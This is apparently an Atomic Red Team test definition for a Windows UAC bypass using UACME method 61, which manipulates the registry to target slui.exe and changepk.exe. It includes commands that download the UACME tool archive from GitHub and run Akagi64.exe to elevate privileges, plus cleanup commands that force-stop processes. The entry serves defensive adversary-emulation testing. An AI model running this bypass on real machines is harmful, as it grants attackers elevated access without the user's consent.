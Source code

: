 Author: Enigma0x3/bytecode77 derivative by Nassim Asrir

Type: Shell API

Method: Registry key manipulation

Target: \system32\slui.exe, \system32\changepk.exe

Component: Attacker defined

Implementation: ucmShellRegModMethod

UCM Method: UacMethodDebugObject

https://github.com/hfiref0x/UACME

**Supported Platforms:** Windows

**auto_generated_guid:** 7825b576-744c-4555-856d-caf3460dc236

#### Inputs:

| Name      | Description              | Type | Default Value                                                                |
| --------- | ------------------------ | ---- | ---------------------------------------------------------------------------- |
| uacme_exe | Path to uacme executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;uacme&#92;61 Akagi64.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{uacme_exe}"
```

#### Cleanup Commands:

```cmd
powershell Stop-Process -Name cmd -Force -ErrorAction Ignore
powershell Stop-Process -Name mmc -Force -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: UACME executable must exist on disk at specified location ("#{uacme_exe}")

##### Check Prereq Commands:

```powershell
$tempPath = cmd /c echo #{uacme_exe}
if (Test-Path "$tempPath") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1548.002/bin/uacme.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" "PathToAtomicsFolder\..\ExternalPayloads\uacme" -Force
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\uacme.zip" -Force
```
